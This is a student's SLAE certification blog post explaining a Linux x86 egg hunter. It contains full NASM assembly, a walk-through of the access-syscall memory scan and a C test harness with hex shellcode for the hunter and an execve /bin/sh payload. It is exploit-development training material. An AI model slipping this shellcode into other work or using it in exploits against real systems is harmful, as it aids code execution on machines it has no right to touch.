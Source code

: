 # SLAE Exam Blog Posts

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certifiation:

https://www.pentesteracademy.com/course?id=3

Student ID: PA-31074

[All Assignments](../Readme.md)
____

</br>

# Assignment 3
For the third assignment I need to solve the following tasks:
* Study about the Egg Hunter shellcode 
* Create a working demo of the Egghunter
* Should be configurable for different payloads

___

</br>

The Egg Hunter method is quite simple. It's based on two stages. The first part is the egg which is a costum combination of data/hex codes somewhere in the memory which is directly in front of your shellcode. The second part is the egg hunter which is searching for the egg in the memory and after that executes the shellcode after the egg. There are different functions which can be used to identify the egg. In my demo I will use the access function.

``` c
int access(const char *pathname, int mode);
```
For this function the address of the memory we want to check has to be in ebx (*pathname) and in ecx there has to be the mode which should be 0, which stands for existance check. We can check out all the pages in memory and if we don't get an EFAULT which would result in 0xfffffff2 in eax the page is readable and we can check there the bytes. Then we can iterate over that memory and check for the occurrence of our placed egg which we put in front of our shellcode two times.

So the first thing we have to do is defining the egg. This we can do in saving it in a register e.g. in esi. I use 0xabcd1337 as the egg.

``` assembly
xor eax, eax
mov ecx, eax
mov edx, eax

mov esi, 0xabcd1337
```
Next step ist to implement the pointer to the pages in this case we use edx register for that. In Linux the default page size is 4096 bytes which is 0x1000 in hex. So if we would add 0x1000 to edx every time there would be null bytes in our shellcode. So we can do a trick where we OR the dx register with fff and later increase it by 1 so the effective increase is 0x1000 without generating null bytes. Also we create the comparison of eax after accessing the access function which may result in an EFAULT 0xf2 in al if the pages is not readable. Then we can jump in case of a non readable page to incToNextPage. In case of a readable page we compare the bytes with our two placed eggs. If The comparison fails we move on to the next byte and compare the next memory for the occurrence of the egg.
``` assembly
incToNextPage:
or dx, 0xfff

incToNextByte:
inc edx
```


``` assembly
lea ebx,  [edx+8]
xor eax, eax     
mov al, 0x21
int 0x80
```


``` assembly
cmp al, 0xf2            
je incToNextPage
```


``` assembly
cmp [edx], esi
jnz incToNextByte

cmp [edx+4], esi 
jnz incToNextByte
```

At this point if there was no jump back we have found the egg 2 times so we are on the right position. Then because our eggs take 8 bytes of space we'll load the address after the eggs (+8 bytes) which is the start to our real shellcode. After getting the address we'll jump to this address which results in the execution of our shellcode.
``` assembly
lea edx, [edx+8] 
jmp edx          
```

To run this we first have to compile the nasm script the normal way and add the shellcode to the c file in my case I named this egghunter. On the other hand we have to define the egg which contains our execve-stack shellcode and before that 2 times our egg like you see in the following:
``` c
#include<stdio.h>
#include<string.h>

unsigned char egg[] =  "\x37\x13\xcd\xab\x37\x13\xcd\xab\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
unsigned char egghunter[] = "\x31\xc0\x89\xc1\x89\xc2\xbe\x37\x13\xcd\xab\x66\x81\xca\xff\x0f\x42\x8d\x5a\x08\x31\xc0\xb0\x21\xcd\x80\x3c\xf2\x74\xed\x39\x32\x75\xee\x39\x72\x04\x75\xe9\x8d\x52\x08\xff\xe2";

void main()
{

	printf("Shellcode Length:  %d\n", strlen(egghunter));

	int (*ret)() = (int(*)())egghunter;

	ret();

}
```
When we now compile it and run it we see a working shell:

![workingShell](images/workingShell.png)

## Whole Assembly code
``` assembly
global _start
_start:
    xor eax, eax            ;clear all registers
    mov ecx, eax
    mov edx, eax
    
    mov esi, 0xabcd1337     ;define the egg to search for


incToNextPage:
    or dx, 0xfff            ;increase dx by 0xfff

incToNextByte:
    inc edx                 ;increase one byte / in combination with 0xfff we increase by 0x1000
    
                            ;read memory with access function
    lea ebx,  [edx+8]       ;load ebx register with a pointer to the memory we want to check
    xor eax, eax            ;reset eax for next instruction
    mov al, 0x21            ;access function 0x21
    int 0x80

    cmp al, 0xf2            
    je incToNextPage        ;jmp if al = 0xf2 (fault) and continue with the next memory address

    cmp [edx], esi          ;if no fault check for egg
    jnz incToNextByte       ;if not the 1st egg then check next memory address

    cmp [edx+4], esi        ;check the 2nd egg
    jnz incToNextByte       ;if not the 2nd egg then check next memory address

    lea edx, [edx+8]        ;load the addresscode after the egg
    jmp edx                 ;jump / execute the shellcode
```